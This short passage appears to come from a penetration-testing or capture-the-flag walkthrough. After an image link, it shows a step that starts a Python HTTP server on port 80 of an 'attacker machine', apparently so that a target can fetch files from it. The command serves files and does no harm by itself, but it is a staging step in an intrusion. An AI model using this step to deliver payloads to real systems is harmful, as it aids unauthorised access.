

now we will sytart the python server on our attacker machine

```
python -m http.server 80
```

